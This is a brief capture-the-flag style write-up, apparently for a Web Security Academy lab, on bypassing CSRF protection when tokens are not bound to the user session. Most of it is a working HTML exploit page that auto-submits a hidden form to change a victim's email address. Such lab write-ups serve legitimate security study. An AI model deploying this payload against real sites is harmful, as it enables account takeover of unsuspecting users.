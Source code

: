 If the vulnerable website does not tie CSRF Token to user session, attacker can genenate and replace his token in the `csrf` parameter.
```
<!DOCTYPE html>
<html lang="en">
<body>
    <h1>Fake Page</h1>
    <form method="POST"
        action="https://0a01009f039876498039128900c30081.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="hacker_lord_1@web-security-academy.net" >
        <input type="hidden" name="csrf_token" value="123456abcdef">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</html>
```
